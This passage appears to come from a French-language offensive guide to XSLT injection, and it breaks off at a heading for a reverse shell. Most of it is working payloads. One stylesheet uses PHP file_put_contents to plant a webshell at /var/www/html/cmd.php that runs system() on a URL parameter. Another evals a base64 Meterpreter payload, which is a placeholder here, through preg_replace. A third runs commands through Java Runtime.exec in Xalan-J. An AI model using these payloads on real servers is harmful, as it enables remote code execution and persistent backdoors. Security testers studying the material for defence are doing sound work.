 **4.5 - Créer un webshell avec `file_put_contents()` :**

```xml
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl">
  
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents',
                                       '/var/www/html/cmd.php',
                                       '&lt;?php echo system($_GET[&quot;c&quot;]); ?&gt;')"/>
    <result>Webshell créé à /var/www/html/cmd.php</result>
  </xsl:template>
</xsl:stylesheet>
```

**4.6 - Meterpreter via base64 :**

```xml
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl">
  
  <xsl:template match="/">
    <xsl:variable name="eval">
      eval(base64_decode('BASE64_ENCODED_METERPRETER_PAYLOAD'))
    </xsl:variable>
    <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
  </xsl:template>
</xsl:stylesheet>
```

***

#### 🎯 Technique 5 : RCE avec Java

**Description :** Exécuter des commandes système via la classe `Runtime` de Java.

**5.1 - Exécution simple (Xalan-J) :**

```xml
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
  xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
  
  <xsl:template match="/">
    <xsl:variable name="rtobject" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtobject,'whoami')"/>
    <xsl:variable name="processString" select="ob:toString($process)"/>
    <result><xsl:value-of select="$processString"/></result>
  </xsl:template>
</xsl:stylesheet>
```

**5.2 - Reverse shell :**
